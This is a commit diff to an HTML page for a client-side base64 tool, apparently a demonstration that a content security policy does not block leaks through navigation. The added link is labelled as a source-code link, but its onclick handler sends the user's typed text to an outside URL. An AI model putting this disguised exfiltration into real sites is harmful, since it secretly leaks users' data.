

Before and after one commit to jul-sh/csp-locked-client-side-base64, a plain HTML site: page public/index.html in a window 1280 px wide. Shown: the part 70-464 px from the top of the page, without its empty margins (0-852 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
leak data via navigation

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -30,6 +30,11 @@
       user it is to verify this. By loading this website into a secure sandbox
       such as the Oak chrome extension though, users can enforce this policy.
     </p>
+    <a
+      href="https://github.com/juliettepretot/csp-locked-client-side-base64"
+      onclick="location.href = this.getAttribute('href') + '?' + encodeURIComponent(document.getElementById('textarea').value); return false;"
+      >inspect this websites source code</a
+    ><br />
     <textarea
       placeholder="Enter data to encode/decode here..."
       id="textarea"
```
